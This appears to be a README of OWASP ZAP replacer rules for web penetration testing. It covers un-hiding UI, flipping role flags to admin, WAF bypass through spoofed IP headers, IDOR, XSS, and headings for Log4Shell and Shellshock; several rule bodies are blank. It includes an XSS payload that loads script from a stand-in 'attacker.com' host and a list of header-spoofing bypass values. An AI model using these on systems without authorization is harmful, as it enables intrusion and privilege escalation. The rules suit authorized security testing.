




# Match and Replace ZAP

Useful Match and Replace ZAP rules.

Inspired by: https://github.com/daffainfo/match-replace-burp

## Finding hidden buttons, forms, and other UI elements

Many sites contain hidden UI elements such as:

```html
<div aria-hidden="true"></div>
<div style="visibility: hidden;"></div>
<div style="display: none;"></div>
<script>document.getElementbyTagName("test").hidden=true</script>
<button type="button" disabled>test</button>
```

In ZAP these can be Revealed with standard functionality: <https://www.zaproxy.org/docs/desktop/addons/reveal/>, however should that not accommodate a particular bit of code/functionality you're encountering a Replacer rule can be leveraged to un-hide or re-enable the component.

- Show Hidden UI



- Show display:none UI


- Change disable to enable


## Changing false to true

Sometimes it is possible to un-hide or re-enable functionality or UI components by simply changing `false` to `true`.
Here are some example scenarios:

- Changing role from normal user to admin


- Set email verified



## Bypass WAF

Bypassing WAF by adding some request headers.

- Adding `X-Forwarded-Host: 127.0.0.1`


Other request headers/values which may assist in bypassing WAFs include (but are not limited to):

```text
X-Forwarded-Port: 127.0.0.1
X-Forwarded-By: 127.0.0.1
X-Forwarded-Scheme: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Real-IP: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Cluster-Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Client-IP: 127.0.0.1
Origin: null
Origin: Domain.attacker.com
```

Note: Adding multiple headers might be easier with a:
- [Proxy Script](https://github.com/zaproxy/community-scripts/blob/main/proxy/WAF_Bypass.js)
or
- [HttpSender Script](https://github.com/zaproxy/community-scripts/tree/main/httpsender)

## Finding IDOR

For example changing a known UUID to another value:



## Finding XSS

- Finding XSS on `Referer`


- Automatically replace user input with an XSS payload


So by just inputting the string `xss_payload` on the website it will be immediately replaced with `"><script src=https://attacker.com></script>`.
Change the XSS payload as you see fit.

## Misc

- Help companies to identify your traffic and separate it from malicious traffic by adding a custom header


- Setting the `User-Agent` (UA) or emulating a mobile browser.

In ZAP the User-Agent request header is controlled via Connection options. However, if you wanted to emulate a mobile browser in order to see the mobile UI of a target or perhaps discover some different functionality or behavior. You could change it to a Mobile UA: https://www.zaproxy.org/docs/desktop/addons/network/options/connection/#default-user-agent

For example: `Mozilla/5.0 (iPhone; CPU iPhone OS 16_5 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.5 Mobile/15E148 Safari/604.1`

<https://www.whatismybrowser.com/guides/the-latest-user-agent/> is a good source for up-to-date User-Agent strings.

This could also be done with a Replacer rule.



- Finding [CVE-2021-44228](https://github.com/advisories/GHSA-jfh8-c2jp-5v3q)


- Replace User-Agent with shellshock attack [CVE-2014-6271](https://github.com/advisories/GHSA-6hfc-grwp-2p9c)


